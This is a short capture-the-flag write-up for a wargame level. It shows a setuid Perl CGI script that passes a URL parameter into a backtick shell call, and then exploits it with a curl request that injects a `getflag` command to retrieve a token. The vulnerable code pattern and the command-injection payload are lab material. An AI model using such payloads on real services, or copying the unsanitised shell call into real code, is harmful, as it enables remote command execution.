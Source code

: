 # First step

We have a level04.pl file on home directory.  
We can know this file have a 's' permission and is a perl file.  

```perl
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
        $y = $_[0];
        print `echo $y 2>&1`;
    }
    x(param("x"));
```

```shell
$> ./level04.pl test  
Content-type: text/html 

$> ./level04.pl x=test  
Content-type: text/html
test  
```

we can know this file run background on localhost:4747  
we have a subroutine(means function) x() in this file.  
we can know the subroutine x() take a parameter and use it to execute a command.  

# Second step

We know the symbols `command` will execute a command in the shell.
Same way for a perl file, if we use symbol `` with a command, it will execute the command in the shell.

```shell
$> curl 'localhost:4747?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```